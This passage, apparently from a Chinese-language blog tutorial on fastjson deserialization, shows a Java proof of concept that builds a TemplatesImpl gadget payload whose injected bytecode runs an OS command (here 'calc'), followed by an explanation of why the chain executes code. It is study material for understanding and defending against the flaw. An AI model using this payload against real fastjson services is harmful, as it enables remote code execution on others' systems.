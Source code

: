 ```java
        evil.makeClassInitializer().insertBefore("Runtime.getRuntime().exec(\"calc\");");
        byte[] bytecode = evil.toBytecode();
        String jsonString = JSON.toJSONString(new byte[][]{bytecode});
        String payload = "{" +
                "\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_name\":\"EvilObj\"," +
                "\"_bytecodes\":" + jsonString + "," +
                "\"_tfactory\":{ }," +
                "\"_outputProperties\":{ }" +
                "}";
        JSON.parse(payload, Feature.SupportNonPublicField);
    }
}

```

![image-20250310200350258](./assets/image-20250310200350258.png)

为什么可以攻击成功？

1. @type指定目标类为：`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
2. 设置`Feature.SupportNonPublicField`属性
3. 按顺序设置`_name`、`_bytecodes`、`_tfactory`，这三个字段的值，因为没有`setter方法`，所以都是反射写入的
4. 设置`_outputProperties`的值，因为该字段只有`getter`方法，所以是`getOnly=true`的，所以会调用`getOutputProperties`，从而触发`newTransformer`方法，从而导致执行恶意代码

感觉`TemplatesImpl`这条链真的太太太巧合了，不过利用的话会有一些限制，毕竟必须要设置`Feature.SupportNonPublicField`。

## 总结

如果想要搞懂`fastjson`核心的逻辑的话，还是非常复杂的，因为`fastjson`提供了非常灵活非常强大的功能，想要琢磨透这些功能，则需要静下心来一点点debug。不过也正是因为`fastjson`非常复杂同时非常强大，这也导致了开发容易疏忽，从而导致一些漏洞的产生。

实际上`fastjson`还有很多非常好玩的利用方式，其中还有一条`BCEL`的不出网利用链。以及后续版本`fastjson`的一些修复方法和绕过，这些`'攻防对抗'`总体来说是非常好玩的。因为本篇已经非常长了，所以就不再写了，我准备再开一篇文章来聊一聊，我们下一篇`fastjson`再见！